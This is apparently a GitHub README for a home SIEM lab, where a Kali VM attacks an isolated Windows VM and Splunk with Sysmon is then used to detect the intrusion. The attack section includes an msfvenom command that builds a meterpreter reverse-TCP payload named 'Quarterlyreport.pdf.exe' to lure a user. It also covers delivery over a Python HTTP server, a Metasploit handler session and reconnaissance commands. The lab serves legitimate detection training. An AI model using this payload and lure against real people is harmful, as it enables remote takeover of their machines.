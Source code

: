 Objective

This Splunk Lab project was created to establish a controlled environment for simulating and detecting cyber attacks. The primary focus was to ingest and analyze logs within a SIEM, generating test telemetry to mimic real-world attack scenarios.  
Skills Learned

[Bullet Points - Remove this afterwards]
Log Analysis
Advanced understanding of SIEM concepts and practical application.
Proficiency in analyzing and interpreting network logs.
Ability to generate and recognize attack signatures and patterns.
Enhanced knowledge of network protocols and security vulnerabilities.
Development of critical thinking and problem-solving skills in cybersecurity.
Tools Used
[Bullet Points - Remove this afterwards]

Security Information and Event Management (SIEM) system for log ingestion and analysis.
Network analysis tools (such as Wireshark) for capturing and examining network traffic.
Telemetry generation tools to create realistic network traffic and attack scenarios.
Steps
drag & drop screenshots here or use imgur and reference them using imgsrc

Every screenshot should have some text explaining what the screenshot is about.

Example below.

Spin up TWO VM's, One being Windows and the other being Kali Linux, with the network adapter set to the Internal Network setting while making both VM IP's static to the same network, I selected this network scheme for security purposes because I do not want these VM's routing to the internet while still being able to communicate with the other. 
The IP's in this lab are: Windows box - 192.168.33.2, Kali box - 192.168.33.3 
<img width="583" alt="image" src="https://github.com/user-attachments/assets/5b423ff8-596e-4f76-95a8-854c507c9b36" />
Ref 1: Virtual Box Settings

To set up our blue team environment, we will be configuring Sysmon on the endpoint to gather logs and send them directly to our Splunk instance.
We did this by allocating a Sysmon config file from Github, copying it to our directory, and running the command ./sysmon64.exe -i sysmonconfig.xml
Installing Sysmon will enhance our ability to capture system events (Since I don't want to expose these VMs to the internet, I downloaded the config file from my main PC, enabled bidirectional drag and drop on the VM, and copied the file into the box.) 

SPLUNK SETUP

Quarterlyreport.pdf.exe

KALI SETUP

Created Malware payload msfvenom -p windows/x64/meterpreter_reverse_tcp lhost-192.168.33.3 -f exe Quarterlyreport.pdf.exe
-p chooses the payload we want to use provided by the Metasploit tool 
lhost determines where this reverse shell will remote back to, we chose the IP of the red team box
-f will decide the file name, we will name it Quarterlyreport.pdf.exe to entice the "end user" to click on it.


![Screenshot 2025-03-12 072905](https://github.com/user-attachments/assets/17e8deb8-90ab-4509-b982-a718275314f4)

Now we need to deliver the payload to the end user.
To do so, we will host an HTTP Python server by running the command found below inside the directory where the payload was saved to
python3 -m http.server 9999 
On our Windows machine we will search the IP of our Kali box followed by ":9999" which is the port designated in our Python command 

![executing the file](https://github.com/user-attachments/assets/b5601151-d80e-4cca-9425-6304a0f62d4e)

After searching this, it will take us to the directory in our Kali VM. We will then download and execute the malicious file we created.
We see on our Kali terminal that a GET request was logged
After running "netstat -anob" on the Windows VM we see a network connection established to our Kali box 

ran multi/handler on msf exploit 
Now that we have successfully delivered and installed our malware, it's time to carry out the exploitation phase of our attack.
We do this by opening the msfconsole on our Kali VM and configuring the handler by setting the payload to "windows/x64/meterpreter/reverse_tcp" and setting our local IP and the port we want the exploit to use on the victim machine
After configuring the handler, we insert the exploit into the CLI to initiate the reverse TCP handler
The session has been opened with our victim machine

![Updated handler](https://github.com/user-attachments/assets/1106b392-a05b-4a9f-a284-8d72a3783490)

Now we will run the following commands to open up a shell and create network traffic to analyze in our Splunk instance
shell, netstat, ipconfig, net user, net group

Time to do some threat hunting in our Splunk instance
We will start by searching for our index indicated in our configuration files for Sysmon "endpoint"
I have a suspicion that the 192.168.33.3 IP we are sending traffic to is a threat, let's filter traffic that is being sent to that IP 

![Screenshot 2025-03-10 211850](https://github.com/user-attachments/assets/63eb2f00-f37e-44f8-a4ad-3107ed305bd4)

After analyzing the event, we see that one of the events has a suspicious .exe file with two file extensions in the name
Luckily, we are running Sysmon, which allows the SourceProcessGUID, if we filter by this field, we can display all events related to this suspicious file 

![SIEM SourceProcessGUID](https://github.com/user-attachments/assets/d41747eb-220b-4aaf-a606-6870af1f8ff4)

We queried the SourceProcessGUID and organized the output with the table command to display the Time, ParentImage, Image, and Command Line

![Final SIEM](https://github.com/user-attachments/assets/e96640cd-65a9-40e6-a0a4-0e3663bc74e8)

Upon analysis, we see commands being executed affiliated with an IP that is not the host's, sound the alarms.
In a real life scenario, this endpoint would be immediately quarantined from the rest of the network to mitigate damage from spreading.
The IP would also be blacklisted and the firewall reconfigured to prevent this suspected RAT from accessing the network again.

